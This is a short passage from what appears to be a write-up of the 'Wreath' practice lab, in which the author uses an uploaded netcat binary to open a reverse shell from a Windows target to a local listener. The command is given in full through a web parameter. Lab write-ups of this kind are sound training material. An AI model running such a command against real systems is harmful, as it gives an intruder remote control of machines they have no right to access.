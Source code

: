 ![alt-41](/assets/img/wreath-writeup/l15t3nr-directory-check.png)

With netcat uploaded, I can use it to connect back to my local machine
for a reverse shell.

I’ll first start a netcat listener on my local machine. Then I’ll send
the following in the wreath parameter:

`powershell.exe c:\\\Windows\\\Temp\\\L15t3Nr\\\nc.exe 10.50.82.91 1337 –e cmd.exe` 

![alt-42](/assets/img/wreath-writeup/reverseshell-1.png)
